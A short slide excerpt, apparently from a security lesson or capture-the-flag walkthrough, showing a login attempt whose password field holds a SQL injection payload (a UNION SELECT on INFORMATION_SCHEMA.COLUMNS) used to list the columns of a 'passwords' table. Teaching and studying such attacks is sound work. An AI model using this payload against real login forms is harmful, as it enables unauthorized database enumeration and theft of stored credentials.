

# Thought Process and Solution
Username: newb
Password: ' UNION SELECT COLUMN_NAME, 0 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='passwords
This command shows us the columns within a table.